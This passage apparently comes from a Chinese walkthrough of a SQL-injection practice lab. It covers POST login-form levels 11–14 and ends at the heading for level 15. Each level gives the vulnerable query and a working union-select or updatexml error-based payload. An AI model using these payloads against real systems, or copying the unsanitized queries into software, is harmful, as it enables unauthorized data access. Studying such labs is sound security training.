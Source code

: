 

## 二、POST

### 11、用户名联合查询 [ ' ]

```python
# SQL语句
SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1;
# 过滤语句
无
# Payload
uname=[不存在的用户]' union select 1,database() #&passwd=&submit=Submit
```

### 12、用户名联合查询 [ ") ]

```python
# SQL语句
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"';
SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1;
# 过滤语句
无
# Payload
uname=[不存在的用户]" union select 1,database() #&passwd=&submit=Submit
```

### 13、用户名报错注入 [ ') ]

```python
# SQL语句
SELECT username, password FROM users WHERE username=('$uname') and password=('$passwd') LIMIT 0,1;
# 过滤语句
无
# Payload
uname=admin') and updatexml(1, concat(0x7e,(database()),0x7e),1)#&passwd=admin&submit=Submit
```

### 14、用户名报错注入 [ " ]

```python
# SQL语句
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"';
SELECT username, password FROM users WHERE username=$uname and password=$passwd LIMIT 0,1;
# 过滤语句
无
# Payload
uname=admin" and updatexml(1, concat(0x7e,(database()),0x7e),1)#&passwd=admin&submit=Submit
```

### 15、密码时间盲注sleep [ ' ]
